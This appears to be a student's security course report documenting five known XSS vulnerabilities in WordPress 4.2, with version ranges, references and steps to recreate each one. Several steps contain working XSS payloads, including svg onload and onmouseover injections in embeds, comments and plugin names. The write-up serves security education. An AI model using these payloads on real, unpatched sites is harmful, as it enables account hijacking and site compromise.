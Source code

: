 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) WordPress 4.0-4.7.2- Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: <img src="Youtube.gif">
  - [ ] Steps to recreate: 
           
           1. Create a new post 
           
           2. Edit a post to contain the following string:
           [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
        
           3. Publish the post.
           
  - [ ] Affected source code:https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
  - [ ] Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
  
  
2. (Required) WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types:XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: <img src="LegacyThemePreviewCrossSite.gif">
  - [ ] Steps to recreate: 
             
           1. Go to the comment section 
           
           2. Type the following string:
           <a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>]
        
           3. Publish the comment.
           
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33549)
  - [ ] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
  
  
3. (Required) WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [ ] Summary: 
    - Vulnerability types:XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough:  <img src="AuthenticatedCrossSiteScripti.gif">
  - [ ] Steps to recreate: 
  
  
           1. Create a new post 
           
           2. Download the XSS.mp3 file: https://www.securify.nl/advisory/SFY20160742/xss.mp3
           
           3. Upload MP3 file to the media library
           
           4. insert an Audio Playlist in this post containing this MP3. 
           
           5. Publish this post. 

  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
  - [ ] Reference: http://seclists.org/oss-sec/2017/q1/563
  
  
4. (Optional) WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version:  4.2.11
  - [ ] GIF Walkthrough: <img src="XSSinupdate-core.gif">
  - [ ] Steps to recreate: 
  
  
         
           1. go to plugin and edit any plugins. 
           
           2. change Plugin name to : <script> alert('1');</script>
           
           3. Navigate to update-core.php.



  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/c9ea1de1441bb3bda133bf72d513ca9de66566c2/wp-admin/update-core.php)
5. (Optional) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:  <img src="UnauthenticatedStoredCrossSit.gif">
  - [ ] Steps to recreate: 
            
           1. Go to the comment section 
           
           2. Type the following string:
          <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>  
          
           Must be greater than 64 kb. 
        
           3. Publish the comment.

      
  - [ ] Affected source code: Not specified source code. 
  - [ ] Reference:https://klikki.fi/adv/wordpress2.html

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2018] [Di Sun]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
